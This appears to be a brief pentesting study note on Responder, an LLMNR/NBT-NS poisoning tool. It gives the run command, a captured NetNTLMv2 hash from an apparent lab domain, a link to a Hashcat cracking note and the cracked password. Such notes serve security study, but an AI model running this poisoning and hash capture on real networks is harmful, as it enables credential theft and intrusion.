 **Tool for Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) that responds to specific NetBIOS queries based on the file server request**.
```bash
sudo responder -I eth0 -dwv
```
`groot::MARVEL:3a3152a856965336:392DF07DE6674A8D277D6BF0F78652D5:010100000000000080C9793D1CF5D701AAFBCF8590CCFF0F0000000002000800590055005900390001001E00`
![[Hashcat#NetNTLMv2]]
Password1